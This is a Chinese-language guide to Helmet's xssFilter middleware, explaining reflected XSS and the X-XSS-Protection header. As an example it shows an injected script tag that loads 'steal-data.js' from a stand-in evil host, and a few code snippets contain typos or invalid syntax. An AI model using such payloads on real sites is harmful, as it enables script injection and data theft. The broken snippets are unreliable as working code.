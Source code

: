 ## XSS 过滤

`xssFilter`中间件通过设置 HTTP 响应头的`X-XSS-Protection`字段来阻止反射型 XSS 攻击。

### 攻击

跨站脚本，简称`XSS`，是攻击者对 web 页面进行攻击的一种方式。`XSS`攻击的目的是获取用户浏览器的 JavaScript 控制能力。一旦获取到了对 JavaScript 的控制能力，他们就能做很多恶意的事情：记录用户行为、冒充用户身份、窃取权限、Cookie 等等。

`XSS`涉及的面非常广，在此没法详细说明。重要的是，如果某人能够在你的网页上运行他的 JavaScript，他就能够攻击你的用户并且可以做很多恶意的事情。因此我们需要设法阻止`XSS`攻击。

其中一种`XSS`攻击叫做“反射型 XSS”。通常，它通过设置直接放入 HTML 的查询字符串来工作。将 JS 脚本放入一个查询字符串中，可以让攻击者给用户一个恶意的查询字符串来执行其 JS 脚本。

比如，假设你要运行一个叫做`Goober`的搜索引擎。每一次执行搜索时，它都会将你的搜索关键词显示在搜索结果的右上方。现在假设我们要搜索“javascript jokes”。

当你在执行搜索时，你的搜索关键词同时会出现在 URL 的查询字符串中。完整的 URL 看起来可能如下面这样：

```
https://goober.example.com/search?query=javascript+jokes
```

搜索结果可能如下图所示。注意你搜索的关键词所出现的位置：
![XSS Filter OK](./imgs/xss-filter-ok.png)

假如我们能对如下关键字进行搜索：

```javascript
<script src="http://evil.example.com/steal-data.js"></script>
```

这时 URL 将会有如下的形式：

```
https://goober.example.com/search?query=<script%20src="http://evil.example.com/steal-data.js"></script>
```

搜索结果可能会是如下这样：
![xss-filter-malicious](./imgs/xss-filter-malicious.png)
显然，一个恶意的 JS 文件因为你访问上面 URL 而被执行。这可就有点不太妙了。

阅读更多：

- [XSS 指南](https://www.securesolutions.no/xss-explained/)

- [跨站脚本（XSS）](<https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)>)

- [什么是反射型 XSS？](https://security.stackexchange.com/questions/65142/what-is-reflected-xss)

- [XSS 防护备忘录](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

### HTTP 头部

首先需要说明的是，HTTP 头部字段`X-XSS-Protection`并不能很好的防护你的网站免受 XSS 的攻击。它只是针对特定类型的 XSS 攻击。此头部字段只是一个快速的基本防护手段，但是它并不能完全让你免受 XSS 的攻击。

浏览器检测一些简单的反射型 XSS 攻击相对来说还是比较容易的。对于上面的例子，浏览器可以选择不去执行能够匹配查询字符串的`<script>`标签。一些浏览器默认会做这样的检测，但也有些浏览器不会做这种检测。为了让所有浏览器都做这种检测，你可以在 HTTP 响应头中添加`X-Xss-Protection:1;mode=block`。

它会告诉浏览器检测并阻止反射型 XSS。

此头部字段在一些老版本的 IE 浏览器中可能会引起一些更严重的安全性问题，这时最明智的做法就是不要使用此字段。

- [控制 XSS 过滤](http://blogs.msdn.com/b/ieinternals/archive/2011/01/31/controlling-the-internet-explorer-xss-filter-with-the-x-xss-protection-http-header.aspx)

- [IE 的 XSS 过滤创建了 XSS 漏洞](https://hackademix.net/2009/11/21/ies-xss-filter-creates-xss-vulnerabilities/)

### 代码

`Helmet`的`xssFilter`中间件通过设置 HTTP 响应头的`X-XSS-Protection`字段告诉浏览器对反射型 XSS 攻击进行过滤处理。在大多数的浏览器上将其设置为`X-XSS-Protection:1;mode=bock`。在一些老版本的 IE 浏览器上需要设置`X-XSS-Protection:0`将其禁用。

你可以将此模块作为`Helmet`的一部分使用：

```javascript
const helmet = require('helmet');

// 设置"X-XSS-Protection:1'mode=block"
app.use(helmet.xssFilter());
```

你也可以将其作为单独的模块使用：

```javascript
const xssFilter = require('x-xss-protection');

// 设置"X-XSS-Protection:1'mode=block"
app.use(xssFilter());
```

要想在所有版本的 IE 浏览器上强制设置`X-XSS-Protection:1;mode=block`，使用如下方式：

```javascript
app.use(xssFilter(setOnOldIE: true))
// 这对于老版本的IE浏览器会有安全性问题
```

你还可以选择性配置一个 reportUri(此配置是针对谷歌浏览器的)。此配置项告诉浏览器在发现 XSS 攻击时将其报告的指定的 URL。

```javascript
app.use(xssFilter({ reportUri: '/report-xss-violation' }));
```

要从`X-XSS-Protection`字段中移除`mode=block`（不建议移除），可以将`mode`选项设置为`null`：

```javascript
app.use(xssFilter({ mode: null }));
```
